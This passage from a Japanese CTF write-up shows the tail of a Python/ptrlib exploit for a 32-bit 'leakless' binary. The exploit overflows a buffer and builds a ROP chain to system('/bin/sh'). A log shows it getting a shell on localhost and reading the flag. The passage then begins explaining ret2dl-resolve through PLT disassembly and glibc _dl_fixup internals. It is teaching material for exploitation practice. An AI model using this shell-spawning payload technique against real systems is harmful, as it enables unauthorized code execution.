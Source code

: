 ```python
dump("libc base = " + hex(libc_base))

payload = b"A" * 0x4c
payload += p32(addr_system)
payload += p32(rop_pop_ebx)
payload += p32(addr_binsh)
payload += p32(addr_exit)
sock.send(payload)

sock.interactive()
```

```
$ python solve1.py
[+] Socket: Successfully connected to localhost:2002
[ptrlib] <read> = 0xf75e8180
[ptrlib] libc base = 0xf7503000
[ptrlib]$ ls
flag.txt
leakless
leakless.sh
[ptrlib]$ cat flag.txt
F#{y3ah!!_y0u_d1d_1t!_C0ngr4tz}
[ptrlib]$ 
```

## ret2dl-resolveを用いた解法
libc databaseに登録されているのは基本的にubuntuのlibcで、サーバーがCentOSだったりlibcが自分でビルドしたものだったりすると対応できません。
ret2dl-resolveを使うと、そのような厳しい条件でも今回の問題を解くことができます。
libc関数の初回呼び出し時にPLTにジャンプした際、`_dl_runtime_resolve`という関数が呼び出されます。（実際にはアセンブリとして定義されています。）
さらにそいつが`_dl_fixup`関数を呼び出して名前解決してアドレスに変換してくれます。

この機構を利用するのがret2dl-resolveです。
`read`関数のpltを見てみましょう。
```
080483b0 <.plt>:
 80483b0:       ff 35 04 a0 04 08       push   DWORD PTR ds:0x804a004
 80483b6:       ff 25 08 a0 04 08       jmp    DWORD PTR ds:0x804a008
...
080483c0 <read@plt>:
 80483c0:       ff 25 0c a0 04 08       jmp    DWORD PTR ds:0x804a00c
 80483c6:       68 00 00 00 00          push   0x0
 80483cb:       e9 e0 ff ff ff          jmp    80483b0 <.plt>
```
初回呼び出し時は0x804a00c(read@got)に0x80483c6が入っているので`push 0x0`から始まります。
ここでpushされている値は.rel.pltからの相対位置(`reloc_offset`)です。
`_dl_fixup`関数はこの引数`reloc_offset`から`ELF32_Rel`構造体の`reloc`変数にポインタを入れます。
```c
const PLTREL *const reloc = (const void *)
  (D_PTR(l, l_info[DT_JMPREL]) + reloc_offset);
```
`ELF32_Rel`構造体は次のように定義されています。
```c
typedef uint32_t Elf32_Word;
typedef uint32_t Elf32_Addr;
typedef uint16_t Elf32_Section;

typedef struct
{
  Elf32_Addr r_offset;
  Elf32_Word r_info;
} Elf32_Rel;

#define ELF32_R_SYM(val)  ((val) >> 8)
#define ELF32_R_TYPE(val) ((val) & 0xff)
```